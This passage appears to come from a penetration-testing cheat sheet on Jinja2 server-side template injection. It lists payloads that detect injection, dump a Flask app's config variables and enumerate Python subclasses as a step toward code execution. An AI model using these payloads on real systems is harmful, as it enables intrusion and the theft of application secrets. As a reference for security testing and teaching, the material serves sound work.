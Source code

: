[Official website](https://jinja.palletsprojects.com/)
> Jinja2 is a full featured template engine for Python. It has full unicode support, an optional integrated sandboxed execution environment, widely used and BSD licensed.  

### Jinja2 - Basic injection

```python
{{4*4}}[[5*5]]
{{7*'7'}} would result in 7777777
{{config.items()}}
```

Jinja2 is used by Python Web Frameworks such as Django or Flask.
The above injections have been tested on a Flask application.

### Jinja2 - Template format

```python
{% extends "layout.html" %}
{% block body %}
  <ul>
  {% for user in users %}
    <li><a href="{{ user.url }}">{{ user.username }}</a></li>
  {% endfor %}
  </ul>
{% endblock %}

```

### Jinja2 - Debug Statement

If the Debug Extension is enabled, a `{% debug %}` tag will be available to dump the current context as well as the available filters and tests. This is useful to see what’s available to use in the template without setting up a debugger.

```python
<pre>{% debug %}</pre>
```

Source: https://jinja.palletsprojects.com/en/2.11.x/templates/#debug-statement

### Jinja2 - Dump all used classes

```python
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

### Jinja2 - Dump all config variables

```python
{% for key, value in config.iteritems() %}
    <dt>{{ key|e }}</dt>
    <dd>{{ value|e }}</dd>
{% endfor %}
```
